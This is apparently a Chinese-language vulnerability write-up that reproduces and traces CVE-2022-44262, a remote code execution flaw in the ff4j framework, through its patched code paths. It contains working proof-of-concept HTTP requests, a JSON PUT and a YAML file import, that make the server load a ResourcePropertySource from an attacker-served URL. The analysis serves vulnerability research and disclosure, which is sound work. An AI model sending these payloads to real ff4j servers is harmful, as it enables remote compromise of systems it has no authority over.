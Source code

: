 # CVE-2022-44262 ff4j framework 远程代码执行漏洞

By. Whoopsunix

# 0x00 概述

通告 https://github.com/ff4j/ff4j/issues/624

codeql https://github.com/github/codeql/issues/10828

# 0x01 复现

```http
PUT /api/ff4j/propertyStore/properties/test HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/json
accept: application/json
Content-Length: 153

{ "name": "test", "description": null, "type": "org.springframework.core.io.support.ResourcePropertySource", "value": "http://127.0.0.1:1234/index.html"}
```

# 0x02 分析

根据 [官方补丁](https://github.com/ff4j/ff4j/pull/625/files#diff-b163e39eb82037c6273fc953a9c0f6ab8159635e25b2d590796fb664c2855d6c) 修改的代码，可以定位到多个可触发漏洞的方法，任选其中一种进行复现，以 json 举例看`org.ff4j.property.util.PropertyFactory#createProperty()`  方法。

在代码中定位到 `org.ff4j.spring.boot.web.api.resources.PropertyResource#createOrUpdateProperty（）` 方法中调用到了上述方法。

![image-20231027173726830](attachments/image-20231027173726830.png)

该方法是用 Kotlin 写的控制器，根据源码构造该控制器的请求包

RESOURCE_PROPERTIES_STORE_PROPERTIES 对应路径 `/api/ff4j/propertyStore/properties` 

PATH_PARAM_NAME 暂时未知

继续跟进一下 `createOrUpdateProperty()` 方法，发现 PATH_PARAM_NAME 需要匹配 test

![image-20231027174150922](attachments/image-20231027174150922.png)

所以得到了触发该方法的请求

```
PUT /api/ff4j/propertyStore/properties/test HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/json
accept: application/json
Content-Length: 153

```

接下来继续看 json 怎么构造，还是在 `createOrUpdateProperty()` 方法中有限制，需要这几个字段

![image-20231027174607980](attachments/image-20231027174607980.png)

最后寻找符合条件的构造方法

![image-20231027175344601](attachments/image-20231027175344601.png)

当然其他方式也是类似的逻辑寻找对应 api 接口就好了，举例从控制台 YAML 触发 http://127.0.0.1:8080/ff4j-web-console/home 

```http
POST /ff4j-web-console/home HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------7596622174150701089351858905
Content-Length: 694
Origin: http://127.0.0.1:8080
Connection: close
Referer: http://127.0.0.1:8080/ff4j-web-console/home
Cookie: JSESSIONID=DC46B65E175C8D3CC2A5BF30BC47D947
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------7596622174150701089351858905
Content-Disposition: form-data; name="op"

import
-----------------------------7596622174150701089351858905
Content-Disposition: form-data; name="flipFile"; filename="payload.yml"
Content-Type: application/x-yaml

# -----------------------------
# Core FF4J
# -----------------------------
ff4j:
  autocreate: false
  audit: false

  # -----------------------------
  # Bloc Properties
  # -----------------------------

  properties:
    - name: a
      type: org.springframework.core.io.support.ResourcePropertySource
      value: http://127.0.0.1:1234/index.html
-----------------------------7596622174150701089351858905--

```





